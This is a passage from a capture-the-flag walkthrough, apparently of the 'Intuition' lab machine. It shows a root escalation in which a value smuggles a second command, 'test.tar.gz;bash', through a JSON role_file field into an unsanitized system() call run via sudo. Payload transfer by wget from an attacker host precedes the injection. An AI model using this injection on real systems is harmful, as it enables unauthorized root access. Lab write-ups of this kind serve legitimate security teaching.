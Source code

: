 I will tar compress it and transfer it to /tmp of the victim machine.
```bash
❯ tar -cvzf test.tar.gz test
<..SNIP..>
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...```

```bash
lopez@intuition:/tmp$ wget http://10.10.15.95/test.tar.gz
--2024-09-10 16:24:36--  http://10.10.15.95/test.tar.gz
Connecting to 10.10.15.95:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1787 (1.7K) [application/gzip]
Saving to: ‘test.tar.gz’

test.tar.gz                                   100%[=================================================================================================>]   1.75K  --.-KB/s    in 0s      

2024-09-10 16:24:36 (95.4 MB/s) - ‘test.tar.gz’ saved [1787/1787]
```

As saw before, there is no sanitization in the input passed to the system function. So I can rename the file to be ''test.tar.gz;bash" and put that filename in the role_file key in the JSON file to execute a bash shell when I run the program:

```bash
lopez@intuition:/tmp$ cp test.tar.gz test.tar.gz\;bash
lopez@intuition:/tmp$ vi installRole.json 
lopez@intuition:/tmp$ cat installRole.json 
{
	"run": 
	{
		"action": "install", 
		"role_file": "test.tar.gz;bash"
	}, 
	"auth_code": "UHI75GHINKOP"
}
```

Now I will run it and if it works, I should have a bash of root just because it's run as root:

```bash
lopez@intuition:/tmp$ sudo /opt/runner2/runner2 installRole.json 
Starting galaxy role install process
- test.tar.gz is already installed, skipping.
root@intuition:/tmp# 
```

It worked and I can see root.txt in /root:

```bash
root@intuition:/tmp# cd /root/
root@intuition:~# cat root.txt 
ca****************************c6
```

That's the machine guys. Hope you learned and liked!


{% endraw %}


[WARNING]: Skipping plugin (/usr/lib/python3/dist-packages/ansible/plugins/filter/core.py) as it seems to be invalid: cannot import name 'environmentfilter' from 'jinja2.filters'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-packages/ansible/plugins/filter/mathstuff.py) as it seems to be invalid: cannot import name 'environmentfilter' from 'jinja2.filters'